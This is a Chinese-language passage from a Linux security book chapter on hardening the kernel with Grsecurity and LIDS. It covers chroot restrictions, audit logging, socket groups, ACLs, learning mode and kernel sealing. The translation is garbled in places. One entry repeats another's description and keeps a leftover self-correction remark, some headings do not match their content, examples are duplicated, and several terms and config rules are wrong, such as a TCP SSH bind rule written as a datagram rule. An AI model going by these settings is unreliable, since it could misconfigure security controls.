能力机制现在趋向于解决全能 root 账户的问题，因为现在对少数特权操作的访问不再需要赋予对整个系统的完全访问权限。一个很好的例子是`ping`命令，它必须以 root 身份运行以执行创建原始套字字的特权操作。以 SUID root 身份运行`ping`是远非理想的，如果在其中发现漏洞，攻击者可能会执行任何具有 root 级权限的操作。使用能力机制，`ping`在启动时可以放弃所有的超级用户权限，除了`CAP_NET_RAW`（创建原始套接字的能力），使得任何潜在的漏洞利用都受到限制。顺便提一下，进程不能自己获取能力（例如，用户不能给自己赋予能力）。

Grsecurity 的目标之一是将所需的配置减少到最低（因为配置错误往往是攻击的根源）；而且，正如你将看到的，Grsecurity 比 SELinux 要易用得多。然而，这并不意味着它一定更好，在本章的最后，我们将花一些时间讨论所涵盖的各种方案的优缺点。

Grsecurity 提供的功能包括：

- `chroot`，防止许多常见的逃逸技术
- FreeBSD 风格的 `TCP ISN` 和 `PID` 随机化
- ACLs（强制访问控制）
- RBAC（基于角色的访问控制）
- PaX 栈保护（在第 8 章“系统加固”中介绍）

Grsecurity 以内核补丁和用户工具的形式提供，可以从 `http://www.grsecurity.net` 获取。在本文写作时，补丁已适用于 2.4 和 2.6 内核系列的最新版本；我们将重点关注后者。

### 安装

到此时，你应该已经熟悉 Linux 内核的补丁、配置和编译了（如果不熟悉，你可能想查阅录录 A，“重新编译 Linux 内核”）。应用 Grsecurity 补丁后，就可以从 `menuconfig` 的 Security Options 中进入 Grsecurity 子菜单了。

本节其余部分将介绍该菜单中每个子项的可用配置选项。

## 关于组成员的说明

Grsecurity 广泛使用组来控制哪些限制适用于哪些用户。组 ID（GID）可以任意选择，尽管默认情况下 Grsecurity 使用 1001 到 1005（包含边界）范围内的 ID。例如，可以使用 `socket` 限制选项防止用户进行网络连接。默认情况下，GID 1004 与此选项关联，因此要防止用户连接到其他主机，只需将他们加入该组：

```
# usermod -G users,1004 peter
```

（注意，该用户将从其目前所属的任何未在此列出的组中删除。）

## 安全级别

提供了三个预定义的安全级别（低、中、高）以及第四种自定义级别。每个层级的帮助屏幕都详细说明了将启用的功能，但我们强烈建议使用自定义级别（`CONFIG_GRKERNSEC_CUSTOM`），因为它允许更多的控制。

## 地址空间保护

这些选项都与内存保护有关，并应结合 PaX（在第 8 章中介绍）一起使用。除 `CONFIG_GRKERNSEC_10`（与 XFree86 不兼容）外，我们建议开启所有这些选项。

## 禁止写入 `/dev/kmem`, `/dev/mem` 和 `/dev/port` (`CONFIG_GRKERNSEC_KMEM`)

字符设备 `/dev/mem` 和 `/dev/kmem` 分别允许 root 级读写系统内存和内核内存。写访问特别特别危险，因为攻击者可以使用它直接将内核模块加载到内存中；即使管理员采取了禁用模块支持的预防措施。`dev/port` 允许直接访问系统的 IO 端口，这通常也是不受希望的。唯一需要直接写入 `/dev/mem` 的应用程序是 VMware 虚拟机；除非你正在使用该程序，否则不要选择此选项。

## 禁用特权 I/O (`CONFIG_GRKERNSEC_IO`)

此选项禁用了 `ioperm` 和系统调用，这些调用也可用于动态写入内存。开启此选项是一个好主意，但会导致 XFree86 崩溃，因此它应该在没有 X Windows 的系统上使用。

## 从 `/proc/<pid>/[maps|stat]` 中移除地址 (`CONFIG_GRKERNSEC_PROC_MEMMAP`)

`/proc` 伪文件系统提供了大量关于系统运行进程的信息，遗憾的是，某些信息对意图不正的人有用。最危险的是 `/proc/<pid>/maps` 和 `/proc/<pid>/stat`，它们显示了给定进程的内存映射——正如我们在第 8 章对 PaX 的讨论中所看到的——这些信息可以帮助尝试执行缓冲区溢出的攻击者。如果该任务也启用了 PaX，此选项将禁用这些功能。

## 隐藏内核符号 (`CONFIG_GRKERNSEC_HIDESYM`)

结合 ACL 使用以防止用户查看内核镜像文件（例如 `vmlinuz` 的 `bImage`）和 `/proc/kcore`，此选项防止 root 级用户获取已加载模块和内核符号的信息，这有助于防御基于内存的攻击（如缓冲区溢出）。你应该开启此选项。

## RBAC 选项

RBAC 是 Grsecurity 一个大且重要的部分，但对内核配置的要求很少，因为大多数访问规则是在用户空间配置的。RBAC 的可用选项有：

- 隐藏内核进程 (`CONFIG_GRKERNSEC_ACL_HIDEKERN`)： 正如名称所示，此选项向普通用户隐藏内核进程。只有管理员或设置了查看权限的进程才能看到它们。除非你有理由让用户查看内核进程，否则请开启此选项。
- 密码锁定前的最大尝试次数 (`CONFIG_GRKERNSEC_ACL_MAXTRIES`)： 用户在被锁定一段时间之前可以尝试进行身份验证的次数。其目的是减少暴力破解密码的有效性。默认值为 3。
- 达到最大密码尝试后的等待时间（秒）(`CONFIG_GRKERNSEC_ACL_TIMEOUT`)： 此值控制上一个选项中讨论的锁定期。默认为 30 秒，这代表了安全值的低端；你可能想延长锁定时间。

### chroot 限制 (`CONFIG_GRKERNSEC_CHROOT`)


正如你在第 8 章中看到的，`chroot` 环境提供了一种隔离不可信进程的方法，从而有效地限制了它们可以访问的文件系统区域。与 OpenBSD 和 FreeBSD 提供的监狱（`jail`）环境相比，Linux 的 `chroot` 实现相对较弱；而且，如你所见，它可以被具有 `root` 级权限的用户轻易破解。`Grsecurity` 补丁提供的以下选项可以防止 `chroot` 逃逸技术，我们建议启用它们。

- **拒绝挂载** (`CONFIG_GRKERNSEC_CHROOT_MOUNT`)：这防止被 `chroot` 的进程挂载和卸载文件系统。

- **拒绝双重 chroot** (`CONFIG_GRKERNSEC_CHROOT_DOUBLE`)：正如你在第 8 章中看到的，在 `chroot` 环境中创建另一个 `chroot` 环境是逃逸监狱（`jail`）细节的一种常用方法。

- **在 chroot 中拒绝 pivot_root** (`CONFIG_GRKERNSEC_CHROOT_PIVOT`)：Linux 2.3.41 引入了一个新函数 `pivot_root`，它的作用方式与 `chroot` 类似，用于更改进程的根目录。在 `chroot` 监狱内部创建 `pivot_root` 可用于逃逸监狱，应当被拒绝。

- **对所有 chroot 强制 chdir("")** (`CONFIG_GRKERNSEC_CHROOT_CHDIR`)：`chroot` 调用不会自动将工作目录更改到新创建的根。这导致了一个遗憾的后果，即可能位于 `chroot` 监狱之外，为攻击者提供了另一个逃逸监狱的机会。此选项在执行任何 `chroot()` 调用后，立即对监狱的根目录执行 `chdir()` 操作。

- **拒绝 fchmod() +s** (`CONFIG_GRKERNSEC_CHROOT_CHMOD`)：这防止 `chroot` 监狱内部的进程通过 `chmod` 或 `fchmod` 调用设置文件的 `SUID` 或 `SGID` 位。

- **拒绝跳出 chroot 的 fchdir** (`CONFIG_GRKERNSEC_CHROOT_NCHDIR`)：`fchdir` 允许进程更改文件的工作目录描述符而非其路径。即使在强制执行 `chdir("")` 的情况下，这也可能被用于逃逸监狱。

- **拒绝 mkknod** (`CONFIG_GRKERNSEC_CHROOT_MKNOD`)：允许监狱环境内的攻击者创建设备节点将使其获得对连接到机器的 IO 设备（包括硬盘）的原始访问权限。

- **拒绝跳出 chroot 的 shmat()** (`CONFIG_GRKERNSEC_CHROOT_SHMAT`)：`shmat()` 系统调用（共享内存连接）允许进程在地址空间内共享内存，这是另一个潜在的攻击源。此选项限制 `shmat()` 调用连接监狱之外的内存。

## 访问控制

- **拒绝跳出 chroot 的抽象 AF_UNIX 套接** (`CONFIG_GRKERNSEC_CHROOT_UNIX`)：`AF_UNIX` 套接族处理 IPC（进程间通信），默认情况下允许跨 `chroot` 监狱进行通信。为了防止监狱内的进程与监狱外的进程进行通信，你应该选择此选项。

- **保护外部进程** (`CONFIG_GRKERNSEC_CHROOT_FINDTASK`)：这防止监狱内的进程向监狱外的进程发送信号或查看这些进程。

- **限制优先级更改** (`CONFIG_GRKERNSEC_CHROOT_NICE`)：这防止监狱中的进程提高其优先级（如在 shell 中通过 `nice` 命令实现），或更改监狱外运行进程的优先级。

- **拒绝 sysctl1** (`CONFIG_GRKERNSEC_CHROOT_SYSCTL`)：正如你在第 3 章“安全拓扑”中所看到的，`/proc` 内部的 `sys` 层次允许读写内核设置。此选项防止监狱内的进程写入 `/proc` 以及使用监狱内部的 `sysctl1` 工具。

- **权限限制** (`CONFIG_GRKERNSEC_CHROOT_CAPS`)：这降低监狱内 `root` 进程的能力（参见本章较早部分），以防止它们执行重启系统和加载模块等任务。这可能会破坏某些 `chrooted` 应用，但如果没有破坏，则强烈建议开启。

## 内核审计

此菜单处理如 `execve()` 和 `fork()` 等操作，这些操作在系统上具有被滥用的潜力。你应该启用所有这些选项，以及“审计单组”（`Single Group for Auditing`）选项。

- **审计单组** (`CONFIG_GRKERNSEC_AUDIT_GROUP`)：该组为用户行为提供了广泛的日志支持（特别是 `execve`、挂载/卸载以及 IPC 的使用）。与其为每个用户记录这些操作（这会导致巨大的日志文件），日志可以限制为 `GID` (`CONFIG_GRKERNSEC_AUDIT_GID`) 选项定义的预定义组成员。要启用某个用户的日志记录，可以为其分配。

- **执行日志** (`CONFIG_GRKERNSEC_AUDIT_EXEC`)：这防止监狱内的进程向监狱外的进程发送信号或查看这些进程。（等待，根据上下文纠正：这可能指的是 `execve()` 调执行日志）。

- **资源日志** (`CONFIG_GRKERNSEC_AUDIT_RESOURCE`)：记录用户尝试超过资源限制（如进程数量）。

- **chroot 内部的 chdir 日志** (`CONFIG_GRKERNSEC_AUDIT_CHDIR`)：正如其名所示，这记录了 `chdir()` 调用。

- **（卸））挂载日志** (`CONFIG_GRKERNSEC_AUDIT_MOUNT`)：记录挂载和卸载操作。

- **IPC 日志** (`CONFIG_GRKERNSEC_AUDIT_IPC`)：涵盖共享内存、信号量和消息队列的创建。

- **信号日志** (`CONFIG_GRKERNSEC_AUDIT_SIGNAL`)：记录重要的信号，例如 `SIGGV`（段错误）。

- **Fork 日志** (`CONFIG_GRKERNSEC_AUDIT_FORK**)：记录 `fork` 操作。

- **时间更改日志** (`CONFIG_GRKERNSEC_AUDIT_TIME`)：记录系统时间更改。

- **/proc 支持** (`CONFIG_GRKERNSEC_AUDIT_PROC`)：启用此选项后，会创建一个对进程只读的新条目。

## 可执行文件保护

内核的此部分处理可执行文件及相关选项，例如限制它们使用的资源、随机 PID 以及限制它们所在的目录。让我们逐一查看这些选项。

- **在 exec 上强制执行 RLIMIT_NPROC** (`CONFIG_GRKERNSEC_EXECVE`)：`RLIMIT_NPROC`（通过 `/etc/limits` 控制）允许限制用户的资源；但默认情况下，限制仅在 `fork()` 时检查。选择此设置会导致在 `execve()` 时也检查限制。

### `dmesg` 限制 (`CONFIG_GRKERNSEC_DMESG`)

`dmesg` 命令允许用户查看最近记录的消息。为了避免泄露可能敏感的信息，此选项将其限制为仅 `root`。

### 随机 PID (`CONFIG_GRKERNSEC_RANDPID`)

此选项为系统中创建的所有进程提供伪匿名 PID，使得攻击者难以预测守护和其他进程的 PID。许多应用程序在创建临时文件时使用 PID（例如 `/tmp/1234`）来确保文件名唯一，而正如你在第 2 章中看到的——临时文件可能是竞态条件的来源。

### 信任路径执行 (`CONFIG_GRKERNSEC_TPE`)

这旨在防止用户意外执行另一个用户的可执行文件。设置此选项后，会创建一个特殊组（由“不可信用户”选项控制），可以将不可信用户放入其中。这些用户将被允许仅在 `root` 拥有的目录中执行二进制。

“部分限制非 root”（`Partially Restrict Nonroot`）设置反转了此选项的功能，仅允许特殊组成员执行不可信二进制。

## 网络保护

尽管 Linux 提供的网络安全通常被认为是强大的，但 `Grsecurity` 提供了进一步的保护措施，许多借鉴自 OpenBSD。这些改进了 `ISN`、`IP ID`、`TCP` 源和 `RPC` 事务标识符的随机化。接下来描述可用选项。

- **更大的熵池** (`CONFIG_GRKERNSEC_RANDNET`)：将 `Grsecurity` 和许多其他 Linux 应用使用的熵池大小增加。考虑到 `Grsecurity` 其他部分对强随机数生成的重要性，应该启用此设置。

- **真正的随机 TCP ISN 选择** (`CONFIG_GRKERNSEC_RANDISN`)：在 Linux 中，`TCP ISN` 是使用 Steven Bellovin 在 `RFC 1948` 中记录的方法变体生成的。

### 348 Linux 网络安全

这种方法使用主机 IP 和时间值的 `MD4` 哈希值来创建 `ISN`（初始序列号），导致序列号在有足够的时间内是可以预测的。正如你在第 2 章中看到的，序列号预测可以为攻击者劫持 `TCP` 连接铺平道路，因此理想情况下，`ISN` 应该是完全随机的。此方法将 Linux 默认的 `ISN` 生成方法替换为 OpenBSD 使用的真随机方法。

## 随机 IP ID (`CONFIG_GRKERNSEC_RANDID`)


另一个源自 OpenBSD 的想法，此选项会随机化系统发送的数据包的 ID。Linux 的默认值对于发送到单个主机的连续数据包，ID 会递增。某些操作系统指纹工具利用此特性来识别主机，这也使得系统能够用于第 4 章“评估网络”中讨论的“空闲主机扫描”（idle host scan）。

## 随机 TCP 源端口 (`CONFIG_GRKERNSEC_RANSRC`)

这会将出站 TCP 连接中使用的源端口随机化。Linux 默认是一个容易被预测的递增算法。

## 随机 RPC XID (`CONFIG_GRKERNSEC_RANDRPC`)

RPC 协议使用事务标识符（XID）作为客户端与调用关联的方式。在 Linux 中，此值简单地递增，使得攻击者很容易预测未来的 XID。

## Socket 限制 (`CONFIG_GRKERNSEC_SOCKET`)

通过此设置启用的三个子选项允许对用户可能执行的 socket 操作进行严格控制。强制执行通过组进行控制，属于列出的组 ID 用户将无法执行所述的操作。这三个选项是：

- 拒绝组的任何 Socket (Deny Any Sockets to Group)：组内的用户将无法与其他主机通信。
- 拒绝组内的客户端 Socket (Deny Client Sockets to Group)：该组的用户将无法作为客户端——也就是说，他们无法向其他主机发起连接。
- 拒绝组内的服务器 Socket (Deny Server Sockets to Group)：这可能是最有用的选项，它禁止属于该组的用户运行 FTP 服务器或 IRC 机器人等网络服务——通常情况下，用户运行的不安全服务器是攻击者的切入点。

后两个选项间接影响了 FTP 客户端的操作：当拒绝客户端 socket 时，传输必须使用被动模式（passive mode）；当拒绝服务器 socket 时，必须使用主动模式（active mode）。

## Sysctl 支持 (`CONFIG_GRKERNSEC_SYSCTL`)

如果启用了 Sysctl 支持选项，Grsecurity 启用的许多限制都可以通过 `/proc` 设置实时开启或关闭。这是一个非常有用的功能（否则管理员将需要重新编译内核来更改设置），但它确实打开了一个潜在的滥用途径，允许任何具有 root 权限访问的用户可能降低系统安全性，从而巩固其权力。仔细使用 ACL（访问控制列表）可以防止这个问题，但你应该意识到这是一个潜在的阿喀琉斯之踵。

与 Grsecurity 相关的选项可以在 `/proc/sys/kernel/grsecurity` 目录中找到，在本章稍后提到它们的名称时，我们将直接引用文件名，而不包含完整路径。对于 `/proc/sys` 中的其他文件，`cat` 和 `echo` 命令是读取和写入 Grsecurity 的 `/proc` 设置的首选方法，所有这些都接受布尔值。

例如，为了防止用户使用 `mesg`：

```bash
# echo 1 > /proc/sys/kernel/grsecurity/mesg

$ dmesg
Klogctl: Operation not permitted
```

如果启用了 Sysctl 支持，`/proc/sys/kernel/grsecurity` 中的所有选项默认都将被禁用。我们建议在生产服务器上禁用此选项。

## 日志选项

此子菜单提供了与 Grsecurity 消息记录方式相关的两个选项：

- 日志消息之间的间隔秒（最小）(`CONFIG_GRKERNSEC_FLOODTIME`)
- 突发时的消息数（最大）(`CONFIG_GRKERNSEC_FLOODBURST`)

默认值分别为 1 和 30，对于大多数情况应该是可以接受的。

## 能力限制

`-CAP_ALL`

`+CAP_CHOWN`

该主体被剥除了除了更改文件所有权以外的所有能力。

## IP ACLs

Grsecurity 还引入了 IP ACL 的概念；即对与进程相关的 IP 地址、端口、协议和套接字类型进行限制。IP ACL 有两种规则可用，取决于你是想限制到守护进程（daemon）的连接，还是限制守护进程绑定到套接字的方式。

```
connect {
  <ip>/netmask>:<low port>--<high port> <type> <protocol>
}
```

```
bind {
  <ip>/netmask>:<low port>--<high port> <type> <protocol>
}
```

在两种情况下，语法是相同的：首先给出 IP 地址，然后是一个可选的子掩码（如果没有给出子掩码，则假设为 `/32`），接下来是冒号，以及由连字符分隔的低、高端口范围。端口范围可以省略，此时将假设为包含所有端口（0 到 65535）。`type` 定义了允许的套接字类型，可以是以下任意一种：`sock`、`dgram`、`raw_sock` 或 `any_sock`。最后指定协议——可以使用 `/etc/protocols` 中列出的任何协议，尽管当然，`TCP` 和 `UDP` 是最常见的。

在接下来的示例中，我们将对目标主体的连接限制在 `192.168.1.x` 范围内，并仅在非特权范围内允许流式 `TCP` 套接字：

```
connect {
  192.168.1.1/24:1024-65535 stream tcp
}
```

可以使用以下语法禁用 `bind` 或 `connect` 控制或两者：

```
connect disabled
bind disabled
```

## 354 Linux 网络安全

### 资源限制

Grsecurity 还允许基于进程的资源限制，其形式如下：

```
<resource name> <soft limit> <hard limit>
```

可用的资源名称有：

- `RES_AS`: 地址空间限制（字节）。
- `RES_CORE`: 最大核心文件大小（字节）。
- `RES_CPU`: 最大 CPU 时间（毫秒）。
- `RES_DATA`: 最大数据大小（字节）。
- `RES_FSIZE`: 最大文件大小（字节）。
- `RES_LOCKS`: 最大文件锁数量。
- `RES_MEMLOCK`: 最大锁定内存（字节）。
- `RES_NOFILE`: 最大打开文件数。记住 `STDIN`、`STDOUT` 和 `STDERR` 都是文件描述符，因此此值不应小于 3。
- `RES_PROC`: 最大进程数。
- `RES_RSS`: 最大驻留内存集大小（字节）。
- `RES_STACK`: 最大栈大小（字节）。

这些反映了 Linux 支持的所有资源，可以在系统的其他部分看到（尽管名称不同），例如 `/etc/limits` 文件。

对于取时间值的资源，默认单位是毫秒。然而，`s`（秒）、`m`（分钟）、`h`（小时）和 `d`（天）都是有效单位。对于按大小计算的资源，可以使用标准的 `K` (1,000)、`M` (1,000,000) 和 `G` (1,000,000,000) 单位代替字节。如果不需要限制，可以使用字符串 `unlimited`。

以下示例代表了有效的资源限制：

```
RES_FSIZE 200M
RES_NPROC 2 3
RES_NOFILE 10 10
```

Grsecurity 还引入了自己的资源限制 `RES_CRASH`，旨在阻止缓冲区溢出攻击。当服务持续崩溃时，这可能意味着攻击者正尝试暴力破解成功触发缓冲区溢出所需的正确偏移量；通过限制应用程序在特定时间内允许崩溃的次数，可以尽早检测并通常阻止此类攻击。

`RES_CRASH` 的语法为：

```
RES_CRASH <崩溃次数> <时间段>
```

例如，允许进程在每小时内最多崩溃三次：

```
RES_CRASH 3 60min
```

如果达到此阈值，应用程序将被阻止在第二个参数指定的时间段内执行。在用户运行 SUID/SGID 二进制文件的情况下，该用户还将被锁定在系统之外 30 分钟，并且其运行的所有其他进程将被终止。

## 主体继承

Grsecurity 支持在 ACL 中使用继承，以简化结构并减少常用规则的重复。继承适用于所有未被专门标记为 `o subject` 标志的主体，并可以通过一个示例得到很好的说明：

```
/{
  /bin rx
  /etc r
  /tmp rw
  -CAP_ALL
  connect disabled
  bind disabled
}
```

```
/usr/local/bin/someapp {
  /h
  /etc rw
  /var h
  +CAP_SETUID
}
```

当处理这两个 ACL 中的第二个时，Grsecurity 会检查路径中每个组件的 ACL（在此示例中，分别为 `/usr/local/bin`、`/usr/local`、`/usr` 和 `/`）。在这种情况下，`/` 存在一个 ACL，其访问控制被继承。

```
/{
  /bin rx
  /etc r
  /tmp rw
  -CAP_ALL
  connect disabled
  bind disabled
}
```

```
/usr/local/bin/someapp {
  /h
  /etc rw
  /var h
  +CAP_SETUID
}
```

## 访问控制 359


在运行学习模式时，非常重要的是记住不要使用授予 `root` 账户的管理权限：诸如启动和停止服务、修改用户账户、安装和卸载软件以及编辑系统配置文件等任务应该被避免，否则这些任务将成为 `ACL` 中 `root` 允许的操作。理想情况下，你希望赋予的权限越少越好，以防发生 `root` 级别的攻破。

学习模式通常应使用一天以上（这样每天运行的 `cron` 任务就会被记录）。在此期间后，使用以下命令禁用访问控制（系统会提示你输入管理员密码）：

```bash
# gradm -D
Password:
```

使用 `-o` 标志从日志文件生成 `ACL`：

```bash
# gradm -F -L /etc/grsec/learning.logs -O /etc/grsec/acl
Beginning full learning 1st pass...done.
Beginning full learning role reduction...done.
Beginning full learning 2nd pass...done.
Beginning full learning subject reduction for user root...done.
Beginning full learning subject reduction for user j...done.
Beginning full learning subject reduction for user smmsp...done.
Beginning full learning 3rd pass...done.
Beginning full learning object reduction for subject /...done.
Beginning full learning object reduction for subject /bin/bash
...done.
Beginning full learning object reduction for subject /bin/cat
...done.
Beginning full learning object reduction for subject /...done.
Beginning full learning final pass...done.
```

你可以指定一个不同的文件来写入这些规则，但推荐的方法（如示例所示）是将它们附加到 `/etc/grsec/acl` 中的任何现有列表中。

## 实现 Grsecurity

`Grsecurity` 具有控制用户和网络服务的特性，非常适合用于 `DMZ` 服务器和内部多用户机器。这些功能中的许多在内核中启用后，只需要极少（或不需要）进一步的配置；由于具有自动生成 `ACL` 的选项，实现 `Grsecurity` 的工作量适中。

## 组

`Grsecurity` 最简单（尽管强大）的功能之一是根据用户所属的组来限制用户。在接下来的示例中，我们假设你已经在内核中启用了组限制功能（如前文所述），并使用了建议的默认组 ID。

对于没有特殊要求的普通用户，我们建议默认将他们放在以下组中：

- `1002`（防止运行网络服务）
- `1005`（仅允许在信任目录中运行二进制文件）

可以通过使用 `useradd` 命令配合 `-G <group1,group2>` 切换来实现：

```bash
# useradd pete -g users -G 1002,1005
```

对于初级管理员来说，这可能显得过于严格，你会发现将他们放在 `Grsecurity` 的任何预定义组中是不实际的。对于潜在的问题用户，你可能还想将他们加入 `1007` 组，这会对 `mount` 和 `exec` 等某些系统调用进行记录。

与物理用户未关联的账户（如 `nobody`、`named`、`www` 等）几乎属于 `1005` 组，你还应该尝试 socket 限制组。主 `DNS` 服务器可以安全地拒绝作为网络客户端的能力（`GID 1003`），但辅助 `DNS` 服务器（定期作为客户端从主服务器检索区域传输数据）需要同时具备客户端和服务器能力。`Sendmail` 同时需要客户端和服务器能力，但通过拒绝 `Apache` 的客户端能力应该是可以的，只要启用 `DNS` 查询的日志记录。

## ACL 生成

你需要创建的 `ACL` 数量在很大程度上取决于默认主体 `/` 的限制紧密程度。虽然高度限制的默认主体对安全有益，但它也为单个主体需要更多的例外。

## 访问控制 361

即使对于经验丰富的 `Grsecurity` 用户，我们也建议使用内置的学习模式来创建初始 `ACL`，这一过程我们在本节较早些部分介绍过了。然而，这个自动生成的 `ACL` 不可避免地需要微调，在本节中，我们将使用一个 `sshd` 的 `ACL` 来更仔细地观察这一过程。

在学习模式下运行 `Grsecurity` 几小时后，生成如下 `ACL`：

```
subject /usr/sbin/sshd o {
/bin h
/bin/bash x
/dev h
/dev/log rw
/dev/ptmx rw
/dev/pts
/dev/pts/1 rw
/dev/tty rw
/etc r
/etc/grsec h
/lib rx
/proc h
/proc/1817
/proc/1819
/usr h
/usr/lib/libcrack.so.2.7 rx
/usr/lib/libglib-1.2.so.0.0.10 rx
/var h
/var/empty/sshd
/var/log
/var/log/lastlog rw
/var/log/wmp w
/var/run/utmp rw
/root
-CAP_ALL
+CAP_DAC_OVERRIDE
+CAP_SETGID
+CAP_SETUID
+CAP_SYS_CHROOT
+CAP_SYS_TTY_CONFIG
bind 0.0.0.0/32:0 dgram ip
connect 192.168.9.100/32:53 dgram udp
}
```

# Linux 网络安全

对 `/proc/<number>` 的引用明显特定于特定的守护进程实例，并且每次启动都会变化，因此无法为它们编写有效的规则。相反，我们将三个 `/proc` 语句泛化为：

```
/proc
```

注意我们必须移除 `/proc` 的（隐藏）标记。同样，分配给连接的终端并不总是 `pts1`，因此我们将 `/dev/pts` 规则泛化为如下内容，允许对 `/dev/pts` 目录及其内容进行读写访问：

```
/dev/pts rw
```

目前的 `bind` 语句允许主体绑定到任何接口上的任何端口。假设我们的 `SSH` 守护进程运行在 `TCP/22` 上，我们可以通过重写该规则来收紧：

```bash
bind 0.0.0.0/32:22 dgram ip
```

最后，`connect` 语句列出了主体被允许连接的地址（而不是谁可以连接到主体）。我们自动生成的 `ACL` 显示，主体尝试连接到 `DNS` 服务器（`192.168.9.100/32:53 dgram udp`）。

然而，我们仍然可以做得。我们的示例目前主体模式为 `o`（覆盖继承），但你记得我们在之前讨论主体模式时提到的，还有许多可用模式。我们可以使用 `n` 模式隐藏窥探的进程（别忘记在默认主体中隐藏 `/var/run/ssh.pid`），使用 `A` 模式保护进程共享内存，使用 `T` 模式防止执行木马代码，并启用 `RANDEXEC`。我们的 `ACL` 第一行现在看起来如下：

```
subject /usr/sbin/sshd ohATx
```

模式的顺序并不重要。最后，我们还可以使用之前讨论的资源限制选项，其中有用的是 `RES_CRASH`。通过以下语句，如果 `SSH` 服务器在 60 分钟内两次崩溃，`Grsecurity` 将阻止其再次启动 60 分钟：

```bash
RES_CRASH 2 60m
```

设置其他资源限制需要实验来确定合适的值，并且它们是次要的。

## 9.3 LIDS: Linux 入侵检测系统 (LIDS)

`LIDS` 最初纯粹是一个 `IDS`，多年来已变成一个更通用的安全项目，类似于 `Grsecurity`。最新的 `LIDS` 系列（第 2 版）使用 `LSM` 框架，而之前的版本是独立实现的。

### 安装

`LIDS` 以内核补丁和一组用户态工具的形式提供，均从 `http://www.lids.org/download.html` 获取。与许多其他项目不同，补丁并不

`LIDS` 仅适用于某些内核版本，但它已经针对 `2.4` 和 `2.6` 系列中的几乎每个内核发布了。找到一个与你现有内核兼容的版本（你可能正是因为该内核适合应用其他补丁而选择了它）应该不是什么问题。

## 内核配置

解压 `LIDS` tar 包，进入内核源码目录，并应用 `LIDS` 补丁：


```bash
# cd /usr/src
# wget \
http://www.lids.org/download/v2.6/2.6.7/lids-2.2.0rc3-2.6.7.tar.gz
# tar -zxvf lids-2.2.0rc3-2.6.7.tar.gz
# cd linux-2.6.7
# patch -p1 < \
/src/lids-2.2.0rc3-2.6.7/2.2.0rc3-2.6.7.patch
```

接下来配置内核。LIDS 要求启用 `SHA256` 摘要算法：你可以在“密码学选项”（`Cryptography Options`）菜单下的“密码学 API”（`Cryptography API`）中找到此选项。LIDS 配置选项位于“安全选项”（`Security Options`）菜单下。在本书期间，LIDS 与其他 `LSM` 模块兼容，因此确保没有选择其他模块（如 `SELinux` 和 `Capabilities`）。可用的 LIDS 配置选项有：

- **尝试防止日志泛滥 (`CONFIG_LIDS_NO_FLOOD_LOG`)：** 这限制了相同消息记录的速率。
- **允许切换 LFS 和状态 (`CONFIG_LIDS_ALLOW_SWITCH`)：** LFS（LIDS 自由会话，我们稍后会讨论）允许管理员执行不受 LIDS 限制的命令；这非常有用，但也是一个可能的攻击点。我们建议在实验 LIDS 时启用此选项，但在生产服务器上可能需要考虑禁用它。请忽略此选项的帮助菜单，它说明必须通过 `lidsam` 命令设置密码——这些信息已经过时。
- **允许关闭 Linux 自由会话 (`CONFIG_LIDS_ALLOW_LFS`)：** 这允许在系统运行时关闭 LIDS。同样这是一个潜在的安全弱点，但在开始使用 LIDS 时很有用。
- **将模式切换限制到指定的终端 (`CONFIG_LIDS_RESTRICT_MODE_SWITCH`)：** 此选项限制了可以启动 LFS 的终端。可以选择的三类终端是控制台（`console`）、串口控制台（`serial console`）和 `PTY`。第三种最危险，因为它可能允许远程攻击者进入 LFS。我们建议只启用第一种，将 LFS 限制为物理坐在机器前的用户。

## Lidools

编译内核后，可以安装 `lidtools` 包。除非你的启用了 LIDS 的内核位于 `/usr/src/linux`，否则你需要在 `configure` 时指定其位置，如下：

```bash
$ tar -zvxf lidtools-2.2.5rc1.tar.gz
$ cd lidtools-2.2.5rc1.tar.gz
$ ./configure KERNEL_DIR=/usr/src/linux-2.6.7
$ su
$ make install
```

安装结束时，系统将提示你输入 LIDS 管理员密码：此密码不应与你的 `root` 密码相同。你现在可以重启系统到新内核。如果你在任何时候想在关闭 LIDS 的情况下启动启用了 LIDS 的内核，可以在启动时传递 `security=0` 参数。

## LIDS 管理

现在我们已经查看了如何在内核中配置 LIDS，让我们转向用户态的配置。通过 `Grsecurity`，LIDS 使用 `ACL` 来控制文件和进程与系统的交互，但它还提供了其他有用功能，如内核密封（`kernel sealing`）和 `LFS`。

## 密封内核

内核模块非常有用，允许根据需要将代码加载到内核中，但正如你在第 2 章中看到的，恶意内核模块是入侵者维持访问权限的一种流行且极难检测的方法。在内核中禁用模块支持是一种解决方案，但这相当不利；遗憾的是，它可以被绕过。LIDS 使用“密封”的概念来保护内核免受此类攻击。当使用 `lidsadm -I` 命令密封内核时，不能再从内核中加载或卸载模块。通过将此命令放在系统启动脚本的末尾（通常是 `rc.local`），你可以确保在内核密封之前所有所需的模块已加载。请注意，密封并不能完全消除恶意内核的威胁：拥有 `root` 权限的入侵者可以轻易修改启动脚本，在内核密封之前加载他的模块，然后重启系统。密封内核还强制执行能力边界集（`capabilities bounding set`），我们稍后会查看。

## LIDS 自由会话

LIDS 自由会话（`LFS`）仅仅在一个不强制执行 LIDS 的 `shell` 中，允许用户执行在 LIDS 下通常不允许的任务。这具有潜在的危险性，因为获得 LFS 的攻击者可以绕过 LIDS 提供的整个保护；然而，这是必要的代价。对 LFS 的访问由之前设置的 `lidsadm` 密码控制。此外，内核配置可以将此类会话仅限于控制台用户 `/etc/lids`（通常这是一个好主意）。

`LFS` 的主要用途之一是为维护任务解除系统限制。例如，如果你需要更新内核或加载模块，可以使用 LFS 执行这些操作，而无需禁用整个系统的 LIDS。

## 370 Linux 网络安全

不要手动编辑此文件——而是使用我们接下来要介绍的特殊 `lidsconf` 工具：

```
0:0:1:0:1114128:834:/sbin:0-0
0:0:1:0:1933326:834:/bin:0-0
0:0:1:0:2:833:/boot:0-0
0:0:1:0:573456:834:/lib:0-0
```

如果你好奇这些神秘的数字意味着什么，LIDS 实际上是在 `inode` 上维护 `ACL`（访问控制列表），而不是文件名——例如，如果我们对 `/var/log/messages` 设置了 `APPEND` 模式，LIDS 将其在内部存储为对 `/var/log/messages` 文件所在 `inode` 的访问控制。这意味着，如果一个文件被删除并随后被重新创建（可能是因为该文件所属的软件包已升级），它的 `inode` 将发生变化，导致 `lids` 的信息将变得不同步。因此，在完成升级应用程序等管理任务后，你必须要求 LIDS 同步其 `ACL` 配置。接下来我们将看到如何实现这一点。

## lidsconf

